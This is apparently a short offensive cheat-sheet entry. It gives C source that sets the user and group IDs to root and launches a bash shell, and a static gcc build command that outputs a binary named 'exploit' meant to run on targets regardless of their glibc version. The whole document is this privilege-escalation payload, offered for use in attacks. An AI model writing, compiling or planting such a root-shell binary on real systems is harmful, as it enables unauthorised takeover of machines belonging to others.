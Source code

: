 # C++ Snippets Utils

```cpp
#include<unistd.h>
void main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

### Compile without dependency of GLIBC_2.XX

```bash
gcc exploit.c -o exploit -w -static
```
